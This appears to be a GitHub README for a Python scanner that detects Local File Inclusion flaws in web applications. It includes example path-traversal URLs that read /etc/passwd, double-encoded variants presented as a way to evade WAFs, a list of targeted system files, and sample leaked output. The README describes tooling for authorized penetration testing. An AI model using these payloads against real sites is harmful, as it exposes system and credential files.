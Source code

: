 # 🔍 LFI Scanner by Clyde

[![Python](https://img.shields.io/badge/Python-3.6%2B-blue?logo=python)](https://www.python.org/)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](./LICENSE)
[![Status](https://img.shields.io/badge/status-active-brightgreen)](#)
[![Issues](https://img.shields.io/github/issues/clydedc/lfi-scanner)](https://github.com/clydedc/lfi-scanner/issues)

A simple and efficient Python tool to detect **Local File Inclusion (LFI)** vulnerabilities in web applications. It leverages common file path payloads and supports optional double URL encoding to bypass filters.

---

## 📌 Features

* ✅ Automatically injects LFI payloads into a specified URL parameter.
* 🔁 Supports both standard and double URL encoding.
* 🧠 Detects potential LFI via common response patterns (`/etc/passwd`, Apache logs, etc.).
* 🎨 Colored console output for better readability.

---

## ⚙️ Installation

```bash
git clone https://github.com/clydedc/lfi-scanner.git
cd lfi-scanner
pip install -r requirements.txt
```

> **Dependencies** (from `requirements.txt`):
>
> ```
> requests
> colorama
> ```

---

## 🚀 Usage

```bash
python3 scanner.py <URL> <parameter>
```

### Example

```bash
python3 scanner.py https://target.com/index.php page
```

This will test payloads like:

```
https://target.com/index.php?page=../../../../../../../../etc/passwd
```

And their **double-encoded** equivalents:

```
https://target.com/index.php?page=..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

---

## 🧪 Technical Details

* **Included payloads**:

  * Linux: `/etc/passwd`, `/proc/self/environ`, Apache logs, etc.
  * Windows: `boot.ini`, `win.ini`, system32 hosts/services, etc.

* **Encoding modes**:

  * `normal`: plain path traversal.
  * `double`: double-URL-encoded strings to evade WAFs and filters.

* **Response signatures checked**:

  * `root:x` (Linux passwd file)
  * `127.0.0.1`, `[apache`, `PATH=`, `USER=`, and others.

---

## 📦 Sample Output

```bash
[+] Starting LFI Scan on https://target.com/index.php

[*] Testing payload (normal): https://target.com/index.php?page=../../../../etc/passwd
[+] Possible LFI detected with payload (normal): https://target.com/index.php?page=../../../../etc/passwd
[+] Snippet:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

---

## 👤 Author

**Clyde**
🔗 [GitHub Profile](https://github.com/clydedc)

---

## ⚠️ Disclaimer

> This tool is intended **strictly for educational purposes and authorized penetration testing**.
> **Unauthorized use** against third-party systems is **illegal and unethical**.

